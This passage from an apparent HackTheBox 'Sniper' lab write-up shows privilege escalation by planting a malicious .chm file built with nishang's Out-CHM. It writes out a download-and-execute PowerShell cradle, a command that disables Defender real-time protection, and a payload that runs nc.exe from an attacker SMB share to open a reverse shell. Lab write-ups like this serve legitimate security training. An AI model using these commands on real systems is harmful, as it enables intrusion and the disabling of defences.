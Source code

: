 This seems like a message sent to the `Chris` user from the Administrator (Sniper CEO). It says that he's expecting Chris to drop a file in this directory.

After investigating further I find a file with the extension `.chm` in the `Chris` Downloads folder:

~~~powershell
*Evil-WinRM* PS C:\users\chris\downloads> ls


    Directory: C:\users\chris\downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/11/2019   8:36 AM          10462 instructions.chm
~~~

>The CHM (Compiled HTML Help) file extension is used for files that contain help documentation in a compiled format. CHM files are commonly associated with Microsoft's HTML Help, a proprietary online help format introduced with Windows 98.

I believe this is the file type which the Administrator is expecting to be dropped at the `C:\Docs` folder.

So there might be a way to create a malicious `.chm` file so when he opens it triggers.

### Crafting malicious file

Looking for it I found the following nishang script: [https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1). Used to generate malicious `.chm` files which could be used to run PowerShell commands and scripts.

>In order to use this tool we need a Windows VM with **HTML Help Workshop** installed.

First we need to download the `.ps1` file:

~~~powershell
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1")
~~~

>If the antivirus is blocking u from downloading the script, run `Set-MpPreference -DisableRealtimeMonitoring $true` to disable real-time protection.

And then generate the malicious with the desired payload:

~~~powershell
Out-CHM -Payload "\\10.10.14.2\ziox\nc.exe 10.10.14.2 4444 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
~~~

![](@assets/HackTheBox/Sniper/10.png)

With this payload I will be accessing a shared `nc.exe` to send me a reverse shell over port 4444.

Now I transfer it to my local machine through the SMB server.

~~~powershell
PS C:\Users\fez\Desktop> copy .\doc.chm \\10.10.14.2\ziox\doc.chm
~~~
